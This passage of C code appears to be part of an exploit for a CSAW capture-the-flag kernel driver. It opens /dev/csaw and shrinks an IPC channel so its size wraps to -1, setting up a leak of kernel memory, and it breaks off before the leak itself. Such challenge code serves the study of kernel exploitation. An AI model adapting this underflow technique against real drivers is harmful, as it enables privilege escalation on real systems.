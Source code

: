 ```

    for ( i = 0; i < (len - 1); i++ )
        str[i] = (rand() % (0x7e - 0x20)) + 0x20;

    str[len - 1] = 0;
}

int main ( int argc, char **argv )
{
    int ret, fd, id;
    unsigned long offset;
    char *addr, *ceiling;
    struct alloc_channel_args alloc_channel;
    struct shrink_channel_args shrink_channel;
    char comm[TASK_COMM_LEN];

    /* Set comm to random signature */

	/*
    srand(time(NULL));

    gen_rand_str(comm, sizeof(comm));

    printf("Generated comm signature: '%s'\n", comm);

    ret = prctl(PR_SET_NAME, comm);
    if ( ret < 0 )
       error("prctl");
	*/

    /* Open device */

    fd = open("/dev/csaw", O_RDONLY);
    if ( fd < 0 )
        error("open");

    /* Allocate IPC channel */

    memset(&alloc_channel, 0, sizeof(alloc_channel));
    alloc_channel.buf_size = 1;

    ret = ioctl(fd, CSAW_ALLOC_CHANNEL, &alloc_channel);
    if ( ret < 0 )
        error("ioctl");

    id = alloc_channel.id;

    printf("Allocated channel id %d\n", id);

    /* Shrink channel to -1 */

    memset(&shrink_channel, 0, sizeof(shrink_channel));
    shrink_channel.id = id;
    shrink_channel.size = 2;

    ret = ioctl(fd, CSAW_SHRINK_CHANNEL, &shrink_channel);
    if ( ret < 0 )
        error("ioctl");

    printf("Shrank channel to -1 bytes\n");

    /* Map buffer for leaking kernel memory to */

```
